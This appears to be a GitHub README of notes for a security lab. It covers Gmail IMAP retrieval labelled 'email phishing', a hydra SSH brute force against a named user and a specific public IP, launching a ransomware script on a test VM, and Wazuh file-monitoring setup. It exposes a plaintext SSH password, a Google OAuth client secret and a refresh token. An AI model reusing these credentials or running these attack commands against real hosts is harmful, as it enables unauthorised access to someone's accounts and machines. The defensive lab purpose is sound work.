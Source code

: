 # Email phishing
To execute email phishing workflow follow the instruction bellow :
1- Lunch the server
2- POST request to url_server/email/imap, to request emails from gmail account. After the request the data will be stored in Redis database with
    "username":"your email",
    "password":"your password",
    "imap_server":"imap.gmail.com",
    "foldername":"inbox", where the emails are stored
    "amount":1, amount of emails you want to read
    "unread":"true", read only unread emails
    "fields":"",
    "include_raw_body":true,
    "include_attachment_data":true,
    "upload_email":true,
    "upload_attachments":true,
    "ssl_verify":true,
    "mark_as_read":false

3- 


## ssh login credentiels : usr:massihadjloum pwd:zino

# SSH brute force
1- In Google cloud lunch kali-linux virtual machine
2- Switch to root user "sudo su -"
3- Command to start attack "hydra -L users.txt -P john.txt [adresse IP] ssh"
3- Command to start attack "hydra -l massihadjloum -P john.txt 34.122.219.253 ssh"

# RansomWare attack

1- On Ubunut VM, check the content of "ls /home/ransomware/test/", if it's not empty, lunch "sudo rm -r /home/ransomware/test/*"
2- to prepare the attack lunch the script "sudo python3 /home/ransomware/ransomware_attaque.py prepare"
2- now, we start ransomware attack by lunching "sudo python3 /home/ransomware/ransomware_attaque.py attack"

# tips

1- go to the machine where wazuh agent is installed
2- to add directory which wazuh agent can monitor,  "sudo nano /var/ossec/etc/ossec.conf"
3- go to "syscheck and add "<directories check_all="yes" whodata="yes">path of directory you want to monitor</directories>""

# Steps to generate acces token
1- execute "py oauth2.py --generate_oauth2_token --client_id=750511791638-sr3n0i3q291ifgfhclt1l99pcr7aifmu.apps.googleusercontent.com --client_secret=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"
2- get code and enter it in the cmd, and you will get access token

3- get access_token using refresh_token "py oauth2.py --refresh_token=1//03nTOlF4aA-MaCgYIARAAGAMSNwF-L9IrUywc39EOSbXD1cEEj2FTnXgegz2G8_jjoihZoqaer4ELSIGB2sqrdai_4ABGZACCGrM --client_id=750511791638-sr3n0i3q291ifgfhclt1l99pcr7aifmu.apps.googleusercontent.com --client_secret=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"

refresh token:1//03nTOlF4aA-MaCgYIARAAGAMSNwF-L9IrUywc39EOSbXD1cEEj2FTnXgegz2G8_jjoihZoqaer4ELSIGB2sqrdai_4ABGZACCGrM


--client_id=750511791638-sr3n0i3q291ifgfhclt1l99pcr7aifmu.apps.googleusercontent.com --client_secret=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